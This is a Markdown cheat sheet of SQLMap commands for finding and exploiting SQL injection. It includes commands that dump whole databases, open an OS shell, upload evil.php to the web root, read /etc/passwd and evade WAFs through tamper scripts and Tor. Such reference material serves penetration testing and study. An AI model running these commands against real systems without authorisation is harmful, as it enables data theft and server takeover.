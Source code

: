 # SQLMap Commands Cheat Sheet

---

## 🔍 1. Discovery & Detection
Commands to identify SQL injection vulnerabilities and types.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL>` | Basic SQL injection test. |
| `sqlmap -u <target_URL> --technique=BLIND` | Test for blind SQL injection. |
| `sqlmap -u <target_URL> --technique=TIME` | Specifically test for time-based blind injection. |
| `sqlmap -u <target_URL> --risk=3 --level=5` | Increase risk and level for more thorough testing. |
| `sqlmap -u <target_URL> --crawl=3` | Crawl target site to find injectable URLs. |
| `sqlmap -u <target_URL> --forms` | Test all forms on the page for injection. |
| `sqlmap -u <target_URL> --batch` | Skip user prompts for automated testing. |

---

## 🏗️ 2. Database Structure Enumeration
Commands to map out databases, tables, and columns.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --dbs` | Enumerate all databases. |
| `sqlmap -u <target_URL> -D <database_name> --tables` | List tables in a database. |
| `sqlmap -u <target_URL> -D <database_name> -T <table_name> --columns` | List columns in a table. |

---

## 🧾 3. Data Extraction
Commands to retrieve data from database tables.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> -D <database_name> -T <table_name> --dump` | Dump data from a specific table. |
| `sqlmap -u <target_URL> --dump-all` | Dump all data from all databases. |
| `sqlmap -u <target_URL> --search -C <column_name>` | Search for specific columns across databases. |

---

## 🖥️ 4. Shell Access & File Operations
Commands for advanced exploitation and server interaction.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --sql-shell` | Open interactive SQL shell. |
| `sqlmap -u <target_URL> --os-shell` | Try to get an OS shell on the server. |
| `sqlmap -u <target_URL> --file-write=evil.php --file-dest=/var/www/html/evil.php` | Upload a file to the target server. |
| `sqlmap -u <target_URL> --file-read=/etc/passwd` | Read a file from the server. |

---

## 🧰 5. Customization & Headers
Fine-tune HTTP requests with headers, cookies, and method.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --cookie="SESSIONID=xyz"` | Include cookies in requests. |
| `sqlmap -u <target_URL> --header="X-Custom: value"` | Add custom HTTP headers. |
| `sqlmap -u <target_URL> --user-agent="CustomAgent"` | Set a custom User-Agent header. |
| `sqlmap -u <target_URL> --referer="https://google.com"` | Set a custom Referer header. |
| `sqlmap -u <target_URL> --method=POST --data="username=admin&password=pass"` | Use POST method with custom data. |

---

## 🛡️ 6. Evading Detection
Options to bypass Web Application Firewalls (WAFs) and filtering.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --tamper=space2comment` | Use tamper script to evade filters. |
| `sqlmap -u <target_URL> --random-agent` | Use a random User-Agent for requests. |
| `sqlmap -u <target_URL> --tor --tor-type=SOCKS5 --check-tor` | Route traffic through Tor network for anonymity. |
| `sqlmap -u <target_URL> --waf` | Detect and attempt to bypass WAF. |

---

## 🧪 7. Output & Logging
Control output saving and verbosity.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --output-dir=outputs` | Save all output to the specified directory. |
| `sqlmap -u <target_URL> --verbose=3` | Show detailed verbose output. |
| `sqlmap -u <target_URL> -v 0` | Suppress most output (quiet mode). |

---

## 📁 8. Configuration & Help
Helpful commands for configuration and assistance.

| Command | Description |
|---------|-------------|
| `sqlmap --help` or `sqlmap -h` | Show help and usage information. |
| `sqlmap -u <target_URL> --update` | Update SQLMap to the latest version. |
| `sqlmap -u <target_URL> --conf=config.txt` | Load options from a configuration file. |

---

# Example Usage

```bash
# Test a URL for SQL Injection
sqlmap -u "http://example.com/vuln.php?id=1"

# Enumerate databases
sqlmap -u "http://example.com/vuln.php?id=1" --dbs

# List tables in 'users' database
sqlmap -u "http://example.com/vuln.php?id=1" -D users --tables

# Dump data from 'accounts' table in 'users' database
sqlmap -u "http://example.com/vuln.php?id=1" -D users -T accounts --dump

# Use a proxy for traffic analysis
sqlmap -u "http://example.com/vuln.php?id=1" --proxy="http://127.0.0.1:8080"

# Run with custom HTTP header
sqlmap -u "http://example.com/vuln.php?id=1" --header="Authorization: Bearer token123"
